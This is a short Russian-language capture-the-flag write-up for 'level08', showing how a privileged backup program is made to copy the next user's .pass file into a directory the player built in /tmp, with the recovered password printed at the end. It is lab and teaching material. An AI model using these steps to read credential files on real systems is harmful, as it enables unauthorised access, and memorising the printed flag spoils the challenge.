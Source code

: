 ```
$> ./level08 
Usage: ./level08 filename
ERROR: Failed to open (null)
```
Как мы видим, программа принимает какой-то файл своим аргументом.  
Попробуем передать .pass файл:
```
$> ./level08 ~level09/.pass
ERROR: Failed to open ./backups//home/users/level09/.pass
```

Как можно заметить, программа пытается открыть ```./backups//home/users/level09/.pass```.  
Попробуем создать этот путь в ```/tmp```.

```
$> cd /tmp
$> mkdir -p ./backups//home/users/level09/
```
Пробуем запустить программу: 
```
$> ~/level08 ~/level09/.pass

$> cat backups/home/users/level09/.pass
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
```
